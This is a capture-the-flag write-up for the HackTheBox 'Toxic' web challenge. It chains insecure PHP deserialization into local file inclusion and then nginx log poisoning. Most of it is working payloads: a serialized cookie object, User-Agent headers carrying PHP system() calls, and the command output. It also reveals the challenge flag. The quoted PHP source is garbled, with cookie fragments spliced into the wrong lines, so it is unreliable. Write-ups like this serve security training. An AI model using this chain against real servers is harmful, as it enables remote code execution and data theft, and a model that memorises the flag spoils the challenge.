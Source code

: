 # Toxic
> Challenge: [Toxic](https://app.hackthebox.com/challenges/toxic)
> 
> Something to read:
> + [Web Security Academy: Insecure Deserialization](https://portswigger.net/web-security/deserialization)
> + [File Inclusion: LFI2RCE](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce)

## Solution
I obviously know that the web has **insecure deserialization** vulnerabilities.
![img.png](img.png)
It's shown in source code of this web too.
```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

SID']if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSES);
unserialize($cookie);
```
And we will use this issue to exploit **file inclusion** vulnerabilities, realizing that it is an `nginx` server, we will use this serialized payload:
```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```
![img_1.png](img_1.png)
Next using log poisoning with User-Agent header to gain more information:
```http request
GET / HTTP/1.1
Host: 159.65.20.166:30525
User-Agent: <?php system('pwd'); ?>
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://159.65.20.166:30525/
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxv
```
We gain the log:
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "/www
" 
```
It works! Next using `ls` and `cat` to see the flag:
Payload: `User-Agent: <?php system('ls -la /'); ?>`
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "total 84
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 .
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 ..
drwxr-xr-x    2 root     root          4096 Apr 14  2021 bin
drwxr-xr-x    5 root     root           360 Jan 22 08:52 dev
-rw-------    1 root     root           179 Apr 30  2021 entrypoint.sh
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 etc
-rw-r--r--    1 root     root            31 Apr 30  2021 flag_NaJT3
drwxr-xr-x    1 root     root          4096 Apr 19  2021 home
drwxr-xr-x    1 root     root          4096 Apr 14  2021 lib
drwxr-xr-x    5 root     root          4096 Apr 14  2021 media
drwxr-xr-x    2 root     root          4096 Apr 14  2021 mnt
drwxr-xr-x    2 root     root          4096 Apr 14  2021 opt
dr-xr-xr-x  335 root     root             0 Jan 22 08:52 proc
drwx------    2 root     root          4096 Apr 14  2021 root
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 run
drwxr-xr-x    2 root     root          4096 Apr 14  2021 sbin
drwxr-xr-x    2 root     root          4096 Apr 14  2021 srv
dr-xr-xr-x   13 root     root             0 Jan 22 08:52 sys
drwxrwxrwt    1 root     root          4096 Jan 22 08:52 tmp
drwxr-xr-x    1 root     root          4096 Apr 30  2021 usr
drwxr-xr-x    1 root     root          4096 Apr 30  2021 var
drwxr-xr-x    4 root     root          4096 Apr 30  2021 www
" 
```
Payload: `User-Agent: <?php system('cat /flag_NaJT3'); ?>`
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
" 
```

**Flag:** `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


